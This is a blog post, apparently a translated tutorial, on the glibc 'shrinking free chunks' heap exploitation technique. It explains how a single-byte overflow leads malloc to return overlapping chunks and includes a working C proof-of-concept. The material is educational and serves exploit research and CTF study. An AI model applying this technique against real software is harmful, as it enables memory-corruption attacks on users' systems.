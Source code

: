```yaml
---
title: Heap Exploitation系列翻译-12 Shrinking Free Chunks
time: 2017-08-12
tags: [CTF, pwn, heap]
layout: post
categories: posts
---
```

# Shrinking Free Chunks

This attack was described in '[Glibc Adventures: The Forgotten Chunk](http://www.contextis.com/documents/120/Glibc_Adventures-The_Forgotten_Chunks.pdf)'. It makes use of a single byte heap overflow (commonly found due to the '[off by one](https://en.wikipedia.org/wiki/Off-by-one_error)'. The goal of this attack is to make 'malloc' return a chunk that overlaps with an already allocated chunk, currently in use. First 3 consecutive chunks in memory (`a`, `b`, `c`) are allocated and the middle one is freed. The first chunk is overflowed, resulting in an overwrite of the 'size' of the middle chunk. The least significant byte to 0 by the attacker. This 'shrinks' the chunk in size. Next, two small chunks (`b1` and `b2`) are allocated out of the middle free chunk. The third chunk's `prev_size` does not get updated as `b` + `b->size` no longer points to `c`. It, in fact, points to a memory region 'before' `c`.  Then, `b1` along with the `c` is freed. `c` still assumes `b` to be free (since `prev_size` didn't get updated and hence `c` - `c->prev_size` still points to `b`) and consolidates itself with `b`. This results in a big free chunk starting from `b` and overlapping with `b2`. A new malloc returns this big chunk, thereby completing the attack. The following figure sums up the steps:

![Summary of shrinking free chunks attack steps](../assets/images/shrinking_free_chunks.png)

_Image Source: https://www.contextis.com/documents/120/Glibc_Adventures-The_Forgotten_Chunks.pdf_

Consider this sample code (download the complete version [here](../assets/files/shrinking_free_chunks.c)):

```c
struct chunk_structure {
  size_t prev_size;
  size_t size;
  struct chunk_structure *fd;
  struct chunk_structure *bk;
  char buf[19];               // padding
};

void *a, *b, *c, *b1, *b2, *big;
struct chunk_structure *b_chunk, *c_chunk;

// Grab three consecutive chunks in memory
a = malloc(0x100);                            // at 0xfee010
b = malloc(0x200);                            // at 0xfee120
c = malloc(0x100);                            // at 0xfee330

b_chunk = (struct chunk_structure *)(b - 2*sizeof(size_t));
c_chunk = (struct chunk_structure *)(c - 2*sizeof(size_t));

// free b, now there is a large gap between 'a' and 'c' in memory
// b will end up in unsorted bin
free(b);

// Attacker overflows 'a' and overwrites least significant byte of b's size
// with 0x00. This will decrease b's size.
*(char *)&b_chunk->size = 0x00;

// Allocate another chunk
// 'b' will be used to service this chunk.
// c's previous size will not updated. In fact, the update will be done a few
// bytes before c's previous size as b's size has decreased.
// So, b + b->size is behind c.
// c will assume that the previous chunk (c - c->prev_size = b/b1) is free
b1 = malloc(0x80);                           // at 0xfee120

// Allocate another chunk
// This will come directly after b1
b2 = malloc(0x80);                           // at 0xfee1b0
strcpy(b2, "victim's data");

// Free b1
free(b1);

// Free c
// This will now consolidate with b/b1 thereby merging b2 within it
// This is because c's prev_in_use bit is still 0 and its previous size
// points to b/b1
free(c);

// Allocate a big chunk to cover b2's memory as well
big = malloc(0x200);                          // at 0xfee120
memset(big, 0x41, 0x200 - 1);

printf("%s\n", (char *)b2);       // Prints AAAAAAAAAAA... !
```

`big` now points to the initial `b` chunk and overlaps with `b2`. Updating contents of `big` updates contents of `b2`, even when both these chunks are never passed to `free`.

Note that instead of shrinking `b`, the attacker could also have increased the size of `b`. This will result in a similar case of overlap. When 'malloc' requests another chunk of the increased size, `b` will be used to service this request. Now `c`'s memory will also be part of this new chunk returned.
